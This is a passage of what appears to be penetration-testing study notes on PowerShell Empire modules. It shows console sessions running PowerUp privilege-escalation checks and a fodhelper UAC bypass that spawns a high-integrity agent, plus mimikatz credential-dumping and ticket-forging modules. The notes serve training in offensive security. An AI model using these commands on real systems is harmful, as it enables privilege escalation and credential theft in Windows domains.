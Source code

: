     > The [Bloodhound](Bloodhound.md) module is especially noteworthy. It automates much of PowerView’s functionality, collecting all computers, users, and groups in the domain as well as all currently logged-in users. The output is stored in CSV files suitable for use with the backend [Bloodhound](Bloodhound.md) application, which uses graph theory to highlight often-overlooked and highly complex attack paths in an Active Directory environment.
    
- `powershell/privesc/`: The privesc category contains **privilege escalation modules**. One of the more interesting modules in this group is `powerup/allchecks` ([ref](https://www.powershellempire.com/?page_id=378)). It uses several techniques based on misconfigurations such as unquoted service paths, improper permissions on service executables, and much more.
    
    ```bash
    (Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powershell/privesc/powerup/allchecks
    (Empire: powershell/privesc/powerup/allchecks) > execute
    Job started: N459AD
    [*] Running Invoke-AllChecks
    [*] Checking if user is in a local group with administrative privileges...
    [+] User is in a local group that grants administrative privileges!
    [+] Run a BypassUAC attack to elevate privileges to admin.
    ...
    ```
    
    The `bypassuac_fodhelper` module is quite useful if we have access to a local administrator account. Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent.
    
    ```bash
    Empire: S2Y5XW1L) > usemodule privesc/bypassuac_fodhelper
    (Empire: powershell/privesc/bypassuac_fodhelper) > info
    Options:
    Name Required Value Description
    ---- -------- ------- -----------
    Listener True Listener to use.
    UserAgent False default User-agent string to use for the staging request (default, none, or other).
    Proxy False default Proxy to use for request (default, none, or other).
    Agent True S2Y5XW1L Agent to run module on.
    ProxyCreds False default Proxy credentials
    ([domain\]username:password) to use for request (default, none, or other).
    
    (Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
    (Empire: powershell/privesc/bypassuac_fodhelper) > execute
    [>] Module is not opsec safe, run? [y/N] y
    
    (Empire: powershell/privesc/bypassuac_fodhelper) >	
    Job started: 4STVDU
    [+] Initial agent K678VC13 from 10.11.0.22 now active (Slack)
    (Empire: powershell/privesc/bypassuac_fodhelper) >
    ```
    
- `credentials/`: The credentials category contains multiple [mimikatz](mimikatz.md) commands that have been ported into Empire. The commands marked with an **asterisk** require a **high-integrity Empire agent**.
    
    ```bash
    (Empire: agents) > interact K678VC13
    (Empire: K678VC13) > usemodule credentials/
    credential_injection*   mimikatz/extract_tickets    mimikatz/sam*
    enum_cred_store         mimikatz/golden_ticket      mimikatz/silver_ticket
    mimikatz/logonpasswords*
    ...
    ```
    